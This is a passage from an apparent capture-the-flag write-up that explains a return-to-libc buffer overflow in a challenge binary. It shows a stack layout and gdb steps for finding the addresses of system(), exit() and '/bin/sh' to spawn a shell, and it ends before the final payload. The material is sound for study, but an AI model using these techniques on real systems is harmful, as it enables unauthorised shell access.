 <p>The third argument is where we will actually overflow the buffer and rewrite the return address. 16 byte can be put to great use if we organize it carefully. The basic idea is a return-to-libc exploit: we want to jump to the execution of <code>system("/bin/sh")</code> somewhere in the memory. So we will need three addresses:</p>

<ul>
<li>The address of <code>system()</code></li>
<li>The address of string <code>/bin/sh</code></li>
<li>The address of <code>exit()</code> so we can exit the program cleanly <br>
Why is this exploit available? Recall the structure of the memory stack when the function returned. It is organized as:</li>
</ul>



<pre class="prettyprint"><code class=" hljs asciidoc">
<span class="hljs-header">|                | 
+================+</span>
|                |  
<span class="hljs-header">| arguments      |
+================+</span>
| next return    |
|   address      |
<span class="hljs-code">+================+</span>   
<span class="hljs-header">| return address | &lt;- eip
+================+</span>
<span class="hljs-header">| old ebp        | &lt;- ebp
+================+</span>
|                |</code></pre>

<p>We can easily push the address of <code>system()</code> and <code>exit()</code> to the stack, and the string <code>/bin/sh</code> as an argument, and these three addresses can be easily found inside <code>gdb</code>, you gotta know how to use this powerful debugger.</p>



<pre class="prettyprint"><code class=" hljs ruby">user<span class="hljs-variable">@host</span><span class="hljs-symbol">:/c0re</span><span class="hljs-variable">$ </span>gdb overflow2

(gdb) unset env <span class="hljs-constant">LINES</span>
(gdb) unset env <span class="hljs-constant">COLUMNS</span>
(gdb) b lolcat
<span class="hljs-constant">Breakpoint</span> <span class="hljs-number">1</span> at <span class="hljs-number">0x80485e4</span></code></pre>

<p>Remember the variables on the memory stack is not loaded until you run the program, so we can first just feed some random input to the program to extract our address.</p>



<pre class="prettyprint"><code class=" hljs mel">(gdb) run <span class="hljs-variable">$(</span><span class="hljs-keyword">python</span> -c <span class="hljs-string">'print "\x90 "*3'</span>)
Starting program: /c0re/attackme2 <span class="hljs-variable">$(</span><span class="hljs-keyword">python</span> -c <span class="hljs-string">'print "\x90 "*3'</span>)
Breakpoint <span class="hljs-number">1</span>, <span class="hljs-number">0x080485e4</span> <span class="hljs-keyword">in</span> lolcat ()</code></pre>
